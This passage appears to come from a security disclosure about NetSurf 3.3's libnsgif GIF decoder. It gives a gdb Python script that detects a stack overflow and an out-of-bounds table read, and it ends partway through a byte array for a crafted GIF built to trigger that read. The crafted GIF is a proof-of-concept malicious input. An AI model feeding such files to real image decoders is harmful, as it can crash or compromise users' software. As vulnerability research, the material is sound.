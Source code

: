 
oob.py:
```python
class Breakpoint(gdb.Breakpoint):
    def stop(self):
        stack_pointer = get_hex("stack_pointer")
        stack = get_hex("&stack")
        stack_size = get_hex("sizeof stack / sizeof *stack")
        stack_end = stack + stack_size

        table_size = get_hex("sizeof table / sizeof **table / 2")
        code = get_hex("code")

        if stack_pointer > stack_end:
            print("stack overflow: ptr: 0x%x, end of stack: 0x%x (+%d)" %
                  (stack_pointer, stack_end, stack_pointer - stack_end))
        if code >= table_size:
            print("out-of-bounds read: code: %d (+%d)" %
                  (code, code - table_size + 1))
        return False

def get_hex(arg):
    res = gdb.execute("print/x %s" % arg, to_string=True)
    x = res.split(" ")[-1].strip()
    return int(x, 16)

Breakpoint("netsurf-all-3.3/libnsgif/src/libnsgif.c:1210")
Breakpoint("netsurf-all-3.3/libnsgif/src/libnsgif.c:1216")

gdb.execute("run")
```


oob.gif:
```c
unsigned char oob[] = {
    /* GIF87a */
    0x47, 0x49, 0x46, 0x38, 0x37, 0x61,

    /* gif_initialise() */
    0x04, 0x00,     /* gif->width */
    0x04, 0x33,     /* gif->height */
    0x00,           /* gif->global_colours */
    0x00,           /* gif->background_index */
    0x00,           /* gif->aspect_ratio */

    /* gif_initialise_frame() */
    0x2c,           /* GIF_IMAGE_SEPARATOR */
    0x00, 0x00,     /* offset_x */
    0x00, 0x00,     /* offset_y */
    0x1b, 0x00,     /* width */
    0x04, 0x00,     /* height */
    0x00,           /* flags */
    0x0c,           /* code size */
    0x0d,           /* block_size */

    /* image data */
    0x10, 0xcb,
    0x41, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3, 0xf3,
    0xf3,

```